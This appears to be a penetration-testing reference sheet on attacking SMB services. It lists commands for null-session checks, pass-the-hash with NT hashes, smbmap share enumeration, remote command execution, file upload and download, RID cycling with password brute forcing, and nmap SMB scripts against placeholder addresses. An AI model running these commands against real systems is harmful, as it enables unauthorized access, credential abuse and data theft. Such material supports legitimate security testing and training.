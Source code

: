 # Server Message Block (SMB)

SMB is a protocol which allows for the sharing and discovery of Files, Printers, Serial Ports and Named Pipes accross a network.  A number of techniques can be used to enumerate SMB and have been listed below for reference:

## SMB Null Session
To test for an anonumous user SMB null session the following command can be used:

`smbclient -N -L //192.168.X.X`

The command will use smbclient to test whether the machine accepts SMB null sessions with an anonymous user.  If successful, this will open up an unauthenticated netbios session between two computers.  SMB null sesssions are a common misconfiguration seen when SMBv1 is enabled on operating systems such as Windows 2000, XP and Server 2003.

If an NTLM hash has been obtained during the penetration testing process smbclient can be used to pass-the-hash and obtain access to a resource, such as a file share:

`smbclient -L \\\\192.168.X.X --pw-nt-hash -U username%NTHASH`

Note for the command above `username` will have to be changed to a valid user and `NTHASH` will have to be replaced with a valid NT password hash for that user.

A tool named **smbmap** can also be used to enumerate file shares on a system.  To check for file shares without providing a username and password the following command can be used:

`smbmap -H 192.168.X.X`

### Relative Identifier (RID) Enumeration
Once a null session has been obtained it is possible to enumerate users on a Windows domain using RID cycling.  A tool named **RidEnum** can be used to enumerate valid users on the system.  Note that a RID of `500` would be the default built-in Windows administrator account.  Even if renamed, the account would still retain the same RID.  Newly created user accounts start at a RID of `1000`.  

The following command can be used to enumerate RID's from 500 - 20,000:

`ridenum.py 192.168.X.X 500 20000`

Optionally a password list can be specified, which will attempt to brute force passwords of any valid users found:


`ridenum.py 192.168.X.X 500 20000 /usr/share/wordlists/password.lst`

## Enumerating SMB File Shares

### SMBMap

If a valid username, password and workgroup is known this can be specified as so:

`smbmap -u username -p password1 -d workgroup -H 192.168.X.X`

To use smbmap with a password has that has been obtained, both the LM and NT hashes must be specified.  Modern operating systems no longer use the LM hash, therefore it can be replaced with the 'blank' LM hash `aad3b435b51404eeaad3b435b51404ee`:

`smbmap -u username -p 'aad3b435b51404eeaad3b435b51404ee:NTHASH' -H 192.168.X.X`

The `-x` allows a command to execute on the target host, providing the credentials of a local administrator are known.  The following command will run `ipconfig` on the target:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X -x 'ipconfig'`

If you want to interact with a particular share the `-r` option can be specified with a share name:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X -r 'C$'`

To download a file from a share the `--download` option can be used:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X --download 'C$\filename.txt'`

To upload a file to a file share the `--upload` command can be used.  The first argument is the file to be uploaded and the second argument is the destination on the "victim" machine:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X --upload '/local/file/path/file_to_upload.txt' 'C$\destination\path\uploaded.txt'`

### Nmap

Nmap contains NSE scripts that can be used for enumerating SMB shares:

`nmap -p 445 -sT -vv --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.X.X`

## SMB File Retrieval

## SMBGet

Smbget can be used to recursively download files from an SMB file share:

`smbget -R smb://<ip_address>/<sharenamegoeshere>`

